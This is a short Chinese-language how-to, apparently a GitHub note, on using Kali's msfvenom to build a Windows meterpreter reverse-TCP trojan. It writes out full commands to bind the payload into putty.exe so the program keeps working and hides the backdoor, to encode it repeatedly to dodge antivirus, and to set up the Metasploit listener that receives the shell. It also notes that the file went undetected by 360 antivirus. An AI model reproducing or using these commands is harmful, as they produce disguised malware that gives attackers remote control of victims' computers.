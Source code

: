 # kali msf社工伪造exe

* 注：kali中已经将msfpayload和msfencode整合到msfvenom中

## 普通后面

* 查找需要的载荷
```
#msfvenom -l payload|grep windows|grep reverse_tcp|grep meterpreter
```
* 生成exe
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.131 LPORT=443 -f exe -o payload.exe
```
* 启动监听
```
msf>use exploit/multi/handler
>set payload windows/meterpreter/reverse_tcp
>set LHOST 192.168.10.131
>set LPORT 443
>run
```
* 点击exe后，建立起连接

## 将payload和正常的exe捆绑，并做免杀

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.131 LPORT=443 -e x86/shikata_ga_nai -x putty.exe -i 5 -f  exe -o backdoor.exe
```
* -e x86/shikata_ga_nai 此意为使用shikata_ga_nai的编码方式对攻击载荷进行重新编码
* -x te_dinig.exe 此意为将木马绑定到指定的可执行程序上
* -i 5 使用指定的编码方式对目标进行5此编码
* -f 使用msf编码输出格式为exe

* 启动监听
```
msf>use exploit/multi/handler
>set payload windows/meterpreter/reverse_tcp
>set LHOST 192.168.10.131
>set LPORT 443
>run
```
* 点击exe后，建立起连接
* 注：测试中，捆绑的exe本身没有起来，但是连接创建成功，这样感觉效果不是很好
* 注：上述方式编码后，360还是可以查杀的。不管有木有编码，从虚拟机拷贝到电脑后，如果没有手动去扫描，点击运行后，360没有任何反应，正常上线。搭建个http服务下载该exe，360还提示文件安全...

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.131 LPORT=443 -e x86/shikata_ga_nai -x putty.exe -k -i 5 -f  exe -o backdoor.exe
```
* 注：加了个-k （keep的意思），将保留原exe的功能，这样很隐蔽

* 网友说结合veil可以实现免杀，待测试TODO

## 串联编码
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.131 LPORT=443  -e x86/shikata_ga_nai -i 5 -f raw|\ 
msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw |\
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```
* 还是能查杀

## 快速脚本

将执行的命令写到一个文件里面，然后msfconsole -r xxx 即可。推荐用.msf后缀

## msfvenom帮助
```
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --smallest                   Generate the smallest possible payload using all available encoders
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, thus performing a subtraction to prepend a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```